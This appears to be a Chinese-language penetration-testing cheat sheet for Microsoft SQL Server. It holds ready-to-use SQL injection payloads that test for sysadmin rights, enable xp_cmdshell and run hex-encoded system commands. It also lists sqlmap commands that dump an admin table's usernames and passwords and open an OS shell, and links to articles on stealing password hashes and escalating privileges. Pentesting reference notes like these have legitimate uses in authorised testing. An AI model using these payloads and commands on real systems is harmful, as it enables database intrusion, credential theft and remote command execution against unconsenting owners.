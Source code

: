 # SqlServer

端口 1433


__工具__

* SQLTools 2.0
## 注入

```sql
';declare @x char(9);set @x=0x303a303a35;waitfor delay @x--         # 例如我想执行延时5s，先将'0:0:5'转为十六进制 : 27303a303a3527
admin';declare @x char(9);if((select IS_SRVROLEMEMBER('sysadmin'))=1) waitfor delay '0:0:5'--   # 判断sa权限
# 开启xpcmshell：
admin';declare @x char(9);EXEC sp_configure 'show advanced options',1;RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
# 判断开启xpcmdshell:
admin';declare @x char(9);if((select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')=1) waitfor delay '0:0:4'--
# 执行命令, 16进制编码一下
admin';declare @x char(8000);set @x=0x70696e6720312e312e312e31;waitfor exec master..xp_cmdshell @x--
```

## SqlServer 2000 在win7x64安装条件

1.计算机名更改为全用大写字符就可以了。
2.设置SETUPSQL.exe 兼容性为winxp, 管理员身份证运行

## 转义
sqlsserver 用"" 来转义 "

## 删除/备份/导入导出
cracer.mdf
cracer_log.ldf

两个文件都要备份提取。

数据库Path: C:\Progran Files\Microsoft SQL Server\MSSQL10_50.HSSOLSERVER\MSSQL\DATA

## 数据库权限
```
sa权限 - system
db权限 - users-adminstrators
public - guest-users
```

```bash
sqlmap -u http://url.php?id=1 --current-db --batch # 得到test
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
```

## config密码等 

在asp web的目录下

web.config

## 命令执行

方法一：xp_cmdshell 

exec master..xp_cmdshell "whoami"默认执行是关闭 

https://blog.csdn.net/weixin_30654583/article/details/97225375

# Article
[窃取MSSQL 各版本密码 HASH](https://mp.weixin.qq.com/s/w9NqP4AqDth6sLbHAPF4AQ)
[sql server提权总结](https://mp.weixin.qq.com/s/3Q6meWdMLfls5cK1j80tFw)
[MSSQL注入和漏洞利用姿势总结](https://mp.weixin.qq.com/s/OakfrGRvYPYGFLY_30aj5w)
[红队必修课之针对MSSQL数据库攻击尝试](https://forum.butian.net/share/1390)
[关于mssql注入的知识分享](https://mp.weixin.qq.com/s/sXt9zd18lD4Al4OC3mmsKw)
[MSSQL渗透tips总结](https://mp.weixin.qq.com/s/TjZGGQY9blMMv-ERtCklDw)

